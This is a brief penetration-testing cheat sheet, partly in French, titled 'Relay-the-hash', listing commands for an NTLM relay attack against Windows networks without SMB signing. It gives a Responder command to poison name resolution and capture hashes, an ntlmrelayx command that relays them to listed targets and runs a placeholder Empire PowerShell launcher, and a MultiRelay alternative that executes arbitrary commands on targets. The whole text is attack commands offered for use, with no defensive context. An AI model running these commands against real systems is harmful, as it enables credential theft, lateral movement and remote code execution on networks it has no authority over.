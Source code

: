 # Relay-the-hash

## prereqis: pas de smbsigning

python Responder.py -I <interface> -r -d -w

ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>


# alternative: 

MultyRelay.py -t <cible> -u ALL -c command

